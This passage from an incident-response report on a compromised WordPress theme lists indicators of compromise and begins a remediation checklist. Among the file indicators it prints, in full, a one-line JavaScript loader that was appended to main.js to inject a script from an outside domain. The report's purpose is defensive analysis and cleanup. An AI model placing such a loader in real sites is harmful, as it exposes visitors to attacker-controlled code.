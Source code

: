 
## Part 7: Indicators of Compromise (IOCs)

### Network IOCs

```
Domain: content-website-analytics.com
URL: https://content-website-analytics.com/script.js
URL: https://content-website-analytics.com/download?id=*
IP: [Needs resolution - avoid DNS query]
Protocol: HTTPS (443)
User-Agent: Normal browser UA (no special markers)
```

### File IOCs

```
File: wp-content/themes/mpa-custom/js/main.js
Size: 84,992 bytes (infected)
Size: 84,797 bytes (clean - 195 bytes removed)
Pattern: ;(function(f,i,u,w,s){w=f.createElement(i);s=f.getElementsByTagName(i)[0];w.async=1;w.src=u;s.parentNode.insertBefore(w,s);})(document,'script','https://content-website-analytics.com/script.js');
Location: Appended as last line of file
Modified: 2025-10-28 06:02:23 UTC
```

### Behavioral IOCs

```
- Unexpected JavaScript file modifications
- External script loading from non-CDN domains
- DOM manipulation via createElement + insertBefore
- Async script injection
- File changes during non-business hours (06:02 AM)
- User account creation immediately after file change (06:03 AM)
```

---

## Part 8: Recommended Actions

### Immediate

- [x] Remove malicious code from main.js ✅
- [x] Isolate samples for analysis ✅
- [x] Verify no other files infected ✅
- [ ] **Find and remove the backdoor** ⚠️ CRITICAL
- [ ] Change all passwords ⚠️ CRITICAL

### Short-Term
